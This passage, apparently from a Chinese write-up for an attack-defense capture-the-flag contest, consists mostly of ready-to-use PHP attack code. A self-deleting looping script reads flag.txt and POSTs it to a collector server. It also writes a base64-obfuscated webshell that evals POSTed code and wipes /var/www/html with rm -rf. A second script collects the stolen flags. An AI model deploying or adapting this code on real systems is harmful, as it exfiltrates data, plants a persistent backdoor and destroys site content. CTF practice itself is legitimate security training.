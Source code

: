     ```php

    <?php
    function send_post($url, $post_data) {
        $postdata = http_build_query($post_data);
        $options = array(
                'http' => array(
                  'method' => 'POST',
                  'header' => 'Content-type:application/x-www-form-urlencoded',
                  'content' => $postdata,
                  'timeout' => 15 * 60 
                )
              );
        $context = stream_context_create($options);
        $result = file_get_contents($url, false, $context);
        return $result;
    }
    $flag_tmp="flag{xxx}";
    @unlink ("awd2021.php");
    while (True) {
        $flag=system("cat flag.txt");
        $data=array(
              'flag' => $flag
            );
        if ($flag!=$flag_tmp) {
            send_post('http://127.0.0.1/getflag.php', $data);
        }
        $flag_tmp=$flag;
        $shell=base64_decode("PD9waHAgJGtleT0kX0dFVFsia2V5Il07CiRrZXloYXNoPW1kNSgka2V5KTsKaWYoJGtleWhhc2g9PT0iYzQwM2Q1OWZlYTMzMTEzZGY0NGQ0NjVhZWVjMzM2YWIiKSB7CglldmFsKCRfUE9TVFsiYSJdKTsKfQplY2hvImZpbGUgbm90IGZpbmQuIjsKPz4=");
        if (file_exists(".c403d59fea33113df44d465aeec336ab.php")==0) {
            file_put_contents(".c403d59fea33113df44d465aeec336ab.php", $shell, FILE_APPEND);
        }
        system("rm -rf /var/www/html/* !(.c403d59fea33113df44d465aeec336ab.php)");
    }
    ?>
    ```

- **（2）服务端接收flag**

    1. 按照往年比赛经验，靶机和我们的电脑是互通的，这个脚本可以本机开一个phpstudy跑起来，若不通的话直接放自己的靶机服务器上。

    2. 这个脚本默认名字为getflag.php，如果修改的话需要修改内存脚本中对应的文件名。

    3. 新的flag会源源不断提交过来，在当前目录的shuoshuren_flag.txt里面。

       ```php
   
       <?php
       $flag=$_POST["flag"];
       file_put_contents("shuoshuren_flag.txt", $flag."\n", FILE_APPEND);
       ?>
       ```
